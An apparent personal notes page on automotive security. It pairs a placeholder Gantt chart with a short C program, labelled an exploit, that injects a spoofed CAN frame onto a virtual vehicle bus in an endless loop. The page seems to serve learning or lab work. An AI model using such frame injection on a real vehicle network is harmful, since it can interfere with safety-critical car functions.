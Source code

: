 
Project Timeline
---
```mermaid
gantt
    title A Gantt Diagram

    section Section
    Automotive Testing Bed          :a1, 2014-01-01, 90d
    CyphyOS Automotive Edition     :after a1  , 60d
    section Another
    Recurring Tasks      :2014-01-12  , 120d
    Teach & Gather      : 240d
```

> Read more about mermaid here: http://mermaid-js.github.io/mermaid/

```C=
Exploit In C
--- temp_shell.c
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <net/if.h>
#include <netinet/in.h>
#include <linux/can.h>
#include <string.h>
int main(int argc, char *argv[]) {
int s;
struct sockaddr_can addr;
struct ifreq ifr;
struct can_frame frame;
s = socket(➊PF_CAN, SOCK_RAW, CAN_RAW);
strcpy(ifr.ifr_name, ➋"vcan0");
ioctl(s, SIOCGIFINDEX, &ifr);
addr.can_family = AF_CAN;
addr.can_ifindex = ifr.ifr_ifindex;
bind(s, (struct sockaddr *)&addr, sizeof(addr));
➌ frame.can_id = 0x510;
frame.can_dlc = 8;
frame.data[1] = 0xFF;
while(1) {
write(s, &frame, sizeof(struct can_frame));
➍ usleep(500000);
}
}
```
To be Continued Later @ 13.12.2023
